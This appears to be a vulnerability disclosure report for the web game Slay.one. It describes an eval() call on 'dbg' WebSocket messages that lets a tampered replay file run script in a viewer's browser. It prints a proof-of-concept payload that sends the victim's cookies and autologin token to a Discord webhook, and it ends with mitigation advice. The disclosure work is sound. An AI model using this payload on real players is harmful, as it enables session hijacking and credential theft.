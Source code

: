 
<div align="center">
  <img src="./imgs/logo.png" alt="Logo" />
</div>

# Exploit Report 'dbg' 

## Introduction 
[Slay.one](https://slay.one) is a popular web-based, top-down pixel shooter game. Despite its engaging gameplay, it suffers from a serious vulnerability that exposes users to cross-site scripting (XSS) attacks. This report outlines the nature of the vulnerability, how it can be exploited, and recommendations for mitigating the risk.

## Proof of Concept (PoC)
The vulnerability resides in the `client-bundle.js` file, specifically in the code responsible for processing WebSocket messages from the server. The problematic section of code is as follows:

```javascript
else if ("dbg" === arr[0]) // 'dbg' packet sent from the server
    try {
        eval(msg.substring(4)); // eval() allows arbitrary code execution
    } catch (e) {}
```

Here, the use of `eval()` poses a critical security risk, as it allows the execution of arbitrary JavaScript code passed within WebSocket messages.

### Exploitation
Attackers can exploit this vulnerability using Slay.one's replay feature, which lets users download and upload game replays. A replay file can be modified to include malicious code that executes in the victim’s browser when the file is uploaded and viewed.

### Proof of Concept Code
The following example demonstrates how an attacker could edit a replay file to exploit this vulnerability. When the replay is loaded, the malicious code steals the user’s cookies and authentication tokens, sending them to a Discord webhook.

#### Malicious Code Example
```javascript
dbg$fetch('https://discord.com/api/webhooks/{webhookID}/{webhookToken}', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({
        content: 'Stolen Cookies: ' + document.cookie + 
                 ' Login Token: ' + localStorage.autologin
    })
});
```

### Potential Effects
Exploiting this vulnerability allows attackers to:
- **Hijack user sessions**: Stolen cookies can be used to impersonate users.
- **Steal sensitive information**: Attackers can access authentication tokens stored in `localStorage`.
- **Execute arbitrary code**: This can lead to additional compromises, including malware delivery or unauthorized actions.

## Recommendations for Mitigation
To address this vulnerability and improve overall security, the following measures are recommended:

- **Eliminate `eval()` usage**: 
- **Validate and sanitize inputs**
- **Implement Content Security Policy (CSP)**
- **Enhance WebSocket security**: 

---

By implementing these measures, Slay.one can significantly reduce the risk of XSS attacks, providing a safer and more secure experience for its players.
